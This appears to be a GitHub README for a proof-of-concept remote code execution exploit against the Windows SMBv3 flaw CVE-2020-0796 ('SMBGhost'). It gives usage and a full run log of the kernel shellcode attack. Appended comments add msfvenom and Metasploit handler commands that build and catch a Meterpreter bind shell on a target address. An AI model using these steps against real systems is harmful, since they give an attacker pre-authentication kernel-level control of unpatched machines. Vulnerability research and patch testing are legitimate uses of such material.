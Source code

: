 # SMBGhost_RCE_PoC

RCE PoC for CVE-2020-0796 "SMBGhost"

For demonstration purposes only! Only use this a reference. Seriously. This has not been tested outside of my lab environment. It was written quickly and needs some work to be more reliable. Sometimes you BSOD. Using this for any purpose other than self education is an extremely bad idea. Your computer will burst in flames. Puppies will die. 

Now that that's out of the way....

Usage ex: 

``` 
$SMBGhost_RCE_PoC python exploit.py -ip 192.168.142.131
[+] found low stub at phys addr 13000!
[+] PML4 at 1ad000
[+] base of HAL heap at fffff79480000000
[+] ntoskrnl entry at fffff80645792010
[+] found PML4 self-ref entry 1eb
[+] found HalpInterruptController at fffff79480001478
[+] found HalpApicRequestInterrupt at fffff80645cb3bb0
[+] built shellcode!
[+] KUSER_SHARED_DATA PTE at fffff5fbc0000000
[+] KUSER_SHARED_DATA PTE NX bit cleared!
[+] Wrote shellcode at fffff78000000a00!
[+] Press a key to execute shellcode!
[+] overwrote HalpInterruptController pointer, should have execution shortly...
```

Replace payload in USER_PAYLOAD in exploit.py. Max of 600 bytes. If you want more, modify the kernel shell code yourself. 

lznt1 code from [here](https://github.com/you0708/lznt1). Modified to add a "bad compression" function to corrupt SRVNET buffer
header without causing a crash.

See this excellent write up by Ricera Security for more details on the methods I used: 
https://ricercasecurity.blogspot.com/2020/04/ill-ask-your-body-smbghost-pre-auth-rce.html



疯子:
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=4444 -b '\x00' -i 1 -f python

疯子:
use exploit/multi/handlerset payload windows/x64/meterpreter/bind_tcpset lport 4444set rhost 192.168.1.144run





